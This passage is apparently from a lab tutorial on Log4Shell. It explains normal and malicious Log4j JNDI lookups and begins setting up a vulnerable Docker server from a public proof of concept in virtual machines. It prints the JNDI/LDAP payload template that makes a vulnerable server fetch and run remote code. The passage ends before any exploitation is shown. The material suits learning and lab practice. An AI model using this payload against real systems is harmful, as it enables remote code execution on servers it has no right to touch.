 ## Normal Log4j Lookup:
Log4j provides the ability to perform various kinds of lookups. Lookups allow a Java application to add values to the log4j configuration at various places.  These lookups can include mapping, system properties, and most importantly to Log4Shell, JNDI lookups.

As seen in **Figure 1**, Log4j uses the JNDI API to interact with various naming and directory services such as: LDAP, DNS(Domain Name Service), NIS (Network Information Service), etc. If this functionality is being used you should see this line of code somewhere: **${jndi:logging/context-name}**. “:logging” specifies that the logging protocol is being targeted by JNDI, but other protocols (such as LDAP, RMI, DNS, etc) can be substituted as seen later in this document.  Below is a diagram of a normal Log4j Lookup.

![](/02_Normal_log4j_request.png){: width="700" height="400" }{: .shadow }
_Figure 2: Normal Log4J Request_
## Malicious Log4j Lookup:
An attacker who can control log messages or log messages parameters can execute arbitrary code on the vulnerable server loaded from LDAP servers when message lookup substitution is enabled. As a result, an attacker can craft a special request that would make the utility remotely downloaded and execute the payload.

Below is the most common example of it using the combination of JNDI and LDAP: `${jndi:ldap://<host>:<port>/<payload>}`

![](/03-Malicious_Log4j_request.png){: width="700" height="400" }{: .shadow }
_Figure 3: Malicious Log4j Request_
## Log4Shell Exploitation:
There are several Log4Shell POCs on GitHub now.  For this particular example, we will be using [Kozmer’s POC](https://github.com/kozmer/log4j-shell-poc).  The setup is pretty straightforward.  Requirements will be a laptop or Macbook with some type of virtualization software installed, one Kali VM, and one Ubuntu VM with Docker installed.

### Setting up Vulnerable Log4j 2 Enabled Server:
Log into your Ubuntu VM and clone the Log4Shell POC:
```shell
git clone https://github.com/kozmer/log4j-shell-poc.git
```
Once you download the POC, Navigate into the folder using:
```shell
cd log4j-shell-poc
```
Next, run:
```shell
pip install -r requirements.txt 
```
This installs all the necessary packages needed for the python script to run successfully.

Now we can build the vulnerable server with Docker:
```shell
docker build -t log4j-shell-poc
docker run --network host log4j-shell-poc
```
You may need to run **sudo** in front of both commands depending on the level or permissions your default ubuntu account has. If successful you should see this by navigating to **localhost:8080** in the web browser:
